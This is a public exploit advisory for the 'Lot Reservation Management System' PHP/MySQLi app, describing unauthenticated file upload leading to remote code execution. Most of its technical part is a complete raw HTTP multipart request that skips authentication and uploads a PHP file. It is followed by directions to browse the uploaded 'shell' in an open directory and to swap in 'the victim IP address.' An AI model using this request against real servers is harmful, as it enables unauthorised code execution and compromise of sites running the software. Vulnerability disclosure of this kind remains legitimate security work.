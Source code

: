 # Exploit Title: Lot Reservation Management System Unauthenticated File Upload and Remote Code Execution
# Google Dork: N/A
# Date: 10th December 2023
# Exploit Author: Elijah Mandila Syoyi
# Vendor Homepage: https://www.sourcecodester.com/php/14530/lot-reservation-management-system-using-phpmysqli-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/lot-reservation-management-system.zip
# Version: 1.0
# Tested on: Microsoft Windows 11 Enterprise and XAMPP 3.3.0
# CVE : N/A

Developer description about application purpose:-

------------------------------------------------------------------------------------------------------------------------------------------------------------------
About

The Lot Reservation Management System is a simple PHP/MySQLi project that will help a certain subdivision, condo, or any business that selling a land property or house and lot. The system will help the said industry or company to provide their possible client information about the property they are selling and at the same time, possible clients can reserve their desired property. The lot reservation system website for the clients has user-friendly functions and the contents that are displayed can be managed dynamically by the management. This system allows management to upload the area map, and by this feature, the system admin or staff will populate the list of lots, house models, or the property that they are selling to allow the possible client to choose the area they want. The map will be divided into each division of the property of building like Phase 1-5 of a certain Subdivision, each of these phases will be encoded individually in the system along with the map image showing the division of each property or lots.

------------------------------------------------------------------------------------------------------------------------------------------------------------------


Vulnerability:-

The application does not properly verify authentication information and file types before files upload. This can allow an attacker to bypass authentication and file checking and upload malicious file to the server. There is an open directory listing where uploaded files are stored, allowing an attacker to open the malicious file in PHP, and will be executed by the server.



Proof of Concept:-

(HTTP POST Request)

POST /lot/admin/ajax.php?action=save_division HTTP/1.1
Host: 192.168.150.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------217984066236596965684247013027
Content-Length: 606
Origin: http://192.168.150.228
Connection: close
Referer: http://192.168.150.228/lot/admin/index.php?page=divisions


-----------------------------217984066236596965684247013027
Content-Disposition: form-data; name="id"


-----------------------------217984066236596965684247013027
Content-Disposition: form-data; name="name"

sample
-----------------------------217984066236596965684247013027
Content-Disposition: form-data; name="description"

sample
-----------------------------217984066236596965684247013027
Content-Disposition: form-data; name="img"; filename="phpinfo.php"
Content-Type: application/x-php

<?php phpinfo() ?>

-----------------------------217984066236596965684247013027--



Check your uploaded file/shell in "http://192.168.150.228/lot/admin/assets/uploads/maps/". Replace the IP Addresses with the victim IP address.
